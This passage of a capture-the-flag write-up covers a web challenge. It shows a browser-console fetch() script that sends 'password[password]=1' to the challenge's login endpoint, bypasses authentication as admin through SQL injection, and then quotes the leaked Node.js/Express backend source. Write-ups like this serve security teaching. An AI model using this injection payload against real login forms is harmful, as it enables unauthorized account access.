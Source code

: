 ```javascript
fetch("https://typhooncon-hiddencharacter.chals.io/auth", {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: "username=admin&password[password]=1",
  method: "POST",
  mode: "cors",
  credentials: "include",
})
.then((r) => r.text())
.then((r) => {
  console.log(r);
});
```

After running the script above in the console tab, it sucessfuly triggered the SQL injection and bypassed the authentication as we can see from the obtained response in the picture below.

![hidden_character2](hidden_character2.png)
_Running the script in the console tab_

The response we get is the content of the page in the `/home` endpoint after a successful login.
If we go to `https://typhooncon-hiddencharacter.chals.io/home` we can confirm that we successfully bypassed the login and are logged in as admin. In the home page we see the following content (the same as the content we got in the console tab response of course):

![hidden_character3](hidden_character3.png)
_home page_

Looks like the home page contains part of the web application backend code. The full code that it is presented in the home page is the following:

```javascript
/*

    Reference: https://codeshack.io/basic-login-system-nodejs-express-mysql/

    Run me: docker-compose up --build --always-recreate-deps
*/

var mysql = require("mysql");
var express = require("express");
var session = require("express-session");
var bodyParser = require("body-parser");
var path = require("path");
const util = require('util');
const exec = util.promisify(require('child_process').exec);
var fs = require("fs");

var connection = mysql.createConnection({
  host: "localhost",
  user: "login",
  password: "login",
  database: "login",
});

const portasulretro = require("crypto").randomBytes(8).toString("hex"); // If only it was 'd7e9bf5c51a0009f'...

var app = express();
app.use(
  session({
    secret: require("crypto").randomBytes(64).toString("hex"),
    resave: true,
    saveUninitialized: true,
```